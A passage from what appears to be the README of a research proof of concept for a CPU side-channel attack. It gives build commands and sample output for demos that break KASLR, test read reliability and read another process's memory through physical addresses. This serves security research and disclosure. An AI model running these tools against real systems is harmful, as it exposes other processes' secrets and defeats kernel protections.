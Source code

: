 ```bash
make
sudo taskset 0x1 ./kaslr
```

After a few seconds, you should see something similar to this
```
[+] Direct physical map offset: 0xffff880000000000
```

### Demo #3: Reliability test (`reliability`)

This demo tests how reliable physical memory can be read. For this demo, you either need the direct physical map offset (e.g. from demo #2) or you have to disable KASLR by specifying `nokaslr` in your kernel command line. 

#### Build and Run

Build and start `reliability`. If you have KASLR enabled, the first parameter is the offset of the direct physical map. Otherwise, the program does not require a parameter. 
```bash
make
sudo taskset 0x1 ./reliability 0xffff880000000000
```

After a few seconds, you should get an output similar to this:
```
[-] Success rate: 99.93% (read 1354 values)
```

### Demo #4: Read physical memory (`physical_reader`)

This demo reads memory from a different process by directly reading physical memory. For this demo, you either need the direct physical map offset (e.g. from demo #2) or you have to disable KASLR by specifying `nokaslr` in your kernel command line. 

In principal, this program can read arbitrary physical addresses. However, as the physical memory contains a lot of non-human-readable data, we provide a test tool (`secret`), which puts a human-readable string into memory and directly provides the physical address of this string. 

#### Build and Run

For the demo, first run `secret` (as root) to get the physical address of a human-readable string:
```bash
make
sudo ./secret
```

It should output something like this:
```
[+] Secret: If you can read this, this is really bad
[+] Physical address of secret: 0x390fff400
[+] Exit with Ctrl+C if you are done reading the secret
```

Let the `secret` program running, and start `physical_reader`. The first parameter is the physical address printed by `secret`. If you do not have KASLR disabled,  the second parameter is the offset of the direct physical map.
```bash
taskset 0x1 ./physical_reader 0x390fff400 0xffff880000000000
```
